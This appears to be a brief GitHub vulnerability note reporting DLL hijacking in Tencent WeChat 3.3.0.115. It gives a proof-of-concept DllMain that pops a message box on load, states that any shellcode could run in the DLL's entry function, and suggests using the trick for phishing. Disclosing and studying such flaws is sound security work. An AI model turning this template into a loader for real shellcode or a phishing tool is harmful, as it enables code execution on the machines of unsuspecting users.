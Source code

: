 #DLL hijacking found in Tencent wechat, version 3.3.0.115

#demonstration

For example:

`BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
  {
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		MessageBox(NULL, (LPCTSTR)TEXT("1"), (LPCTSTR)TEXT("1"), MB_OK);
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{

	}
	return TRUE;
}`

#You can define any code and shellcode to execute in the DLL's entry function!!

#Very simple, we can be used for rights protection or phishing!!!
